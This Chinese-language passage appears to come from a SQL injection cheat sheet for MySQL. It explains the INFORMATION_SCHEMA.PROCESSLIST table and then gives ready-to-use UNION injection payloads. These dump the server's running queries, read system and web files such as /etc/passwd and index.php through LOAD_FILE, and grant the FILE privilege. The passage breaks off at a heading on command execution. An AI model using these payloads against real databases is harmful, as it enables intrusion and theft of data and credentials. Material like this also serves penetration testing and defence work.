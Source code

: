 
## MySQL当前查询

`INFORMATION_SCHEMA.PROCESSLIST`是MySQL和MariaDB中一个特殊的表，它提供了数据库服务器中活动进程和线程的信息。此表可以列出数据库当前正在执行的所有操作。

`PROCESSLIST`表包含几个重要的列，每个列都提供了有关当前进程的详细信息。常见列包括： 

* **ID** ：进程标识符。
* **USER** ：运行该进程的MySQL用户。
* **HOST** ：发起该进程的主机。
* **DB** ：该进程当前正在访问的数据库，如果有的话。
* **COMMAND** ：该进程正在执行的命令类型（例如，Query, Sleep）。
* **TIME** ：该进程已运行的时间（秒）。
* **STATE** ：该进程的当前状态。
* **INFO** ：正在执行的语句文本，如果没有正在执行的语句则为NULL。
     
```sql
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;
```

| ID  | USER      | HOST 	         | DB 	   | COMMAND | TIME | STATE      | INFO | 
| --- | --------- | ---------------- | ------- | ------- | ----	| ---------- | ---- | 
| 1	  | root	  | localhost        | testdb  | Query	 | 10	| executing	 | SELECT * FROM some_table | 
| 2	  | app_uset  | 192.168.0.101    | appdb   | Sleep	 | 300	| sleeping	 | NULL |
| 3	  | gues_user | example.com:3360 | NULL	   | Connect | 0    | connecting | NULL |


```sql
UNION SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #
```

一次性转储查询以提取整个表的内容。

```sql
UNION SELECT 1,(SELECT(@)FROM(SELECT(@:=0X00),(SELECT(@)FROM(information_schema.processlist)WHERE(@)IN(@:=CONCAT(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```


## MySQL读取文件内容

需要`filepriv`权限，否则会报错：`ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
UNION ALL SELECT LOAD_FILE('/etc/passwd') -- 
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

如果你是数据库的`root`用户，可以使用以下查询重新启用`LOAD_FILE`

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MySQL命令执行
